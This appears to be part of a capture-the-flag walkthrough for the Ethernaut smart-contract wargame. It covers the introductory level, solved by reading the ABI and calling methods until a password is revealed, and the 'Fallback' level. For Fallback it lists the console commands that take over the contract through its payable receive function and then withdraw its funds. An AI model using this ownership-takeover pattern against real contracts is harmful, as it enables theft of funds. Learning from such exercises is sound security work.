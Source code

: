```jsx
10: {inputs: Array(0), name: 'theMethodName', outputs: Array(1), stateMutability: 'view', type: 'function', …}
length: 11
[[Prototype]]: Array(0)
```

Seeing the abi object of **infoNum** **it is clear that the return type of the function is a **uint8**, **infoNum** is probably the default getter function for the infoNum storage variable of the contract. Since there is no built-in unsigned integer type in Javascript, it receives the value as a typed ArrayBuffer, you can stringify it to see the actual integer. We can see that there is also a function named **password** at index 9.

```jsx
> x = await contract.infoNum()

> x.toString()
< '42'
```

Calling the **info42** method

```jsx
> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```

Submit the instance, and congrats you cleared your first ethernaut level!!

# 1. Fallback

The initial owner has 1000 ether as his contribution, so getting ownership of the contract through `contribute()` is clearly not the best way since 1000 ether is quite a lot(well you can spend weeks or even months collecting that amount from Rinkeby faucets, your choice 😛). But surely there is a better way using the other functions given. It’s an easy task to figure out what it is so we will just let the solution speak.

```jsx
// calling the contribute() with the right amount of ether to pass the condition.
> await contract.contribute({value:toWei("0.0001", "ether")})

// since the contract has a payable fallback receive fuction we will just send a
// transaction to the contract with some amount of ether and empty data(so that the
// fallback function is called)
> await web3.eth.sendTransaction({to:"0x1B5D18EDfdD898caeadd43Cf4e1f1857d55BC075", 
	value:toWei("0.0001", "ether"), from:"0x136801a295932bEcE62ef615bEFC3DE0259D565F"})

// in the "owner" storage variable we will see our address now!!
> await contract.owner()
'0x136801a295932bEcE62ef615bEFC3DE0259D565F'

// withdraw everything using the withdraw() given
> await contract.withdraw() 
```
